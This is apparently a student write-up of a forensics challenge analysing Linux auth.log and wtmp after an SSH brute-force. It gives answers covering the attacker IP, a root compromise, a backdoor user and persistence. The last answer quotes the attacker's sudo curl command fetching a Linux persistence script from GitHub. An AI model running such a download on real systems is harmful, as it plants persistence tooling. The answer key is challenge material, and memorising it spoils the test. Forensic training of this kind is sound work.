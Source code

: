 

##### Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


Q1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

A: 65.2.161.68

Opening the auth.log file we see a lot of entries about Invalid user from the same ip, i would assume that this ip is the attacker's.

![](../../Img/Pasted%20image%2020250425142803.png)

Q2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

A: root

Looking further down we can find the username (searching for success didn't work, but accepted works)

![](../../Img/Pasted%20image%2020250425143038.png)

Q3: Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

A: 2024-03-06 06:32:45

In the wtmp file (after utmpdump bc u cant open the file just like that). We search for the root acc and the ip of the attacker and find the answer

![](../../Img/Pasted%20image%2020250425144054.png)

Q4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

A: 37

This one is in the auth.log file, following the path of this questions, we can assume that it is asking for the manual login. (as oppose to the automated one, that being the first successful login of root with the attacker ip)

![](../../Img/Pasted%20image%2020250425144551.png)

Q5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

A: cyberjunkie

In the same file, a little bit below we can see that a new user is created, and the modifications done to this user too.

![](../../Img/Pasted%20image%2020250425144753.png)

Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

A: T1136.001

Q7: What time did the attacker's first SSH session end according to auth.log?

A: 2024-03-06 06:37:24

Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

A: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
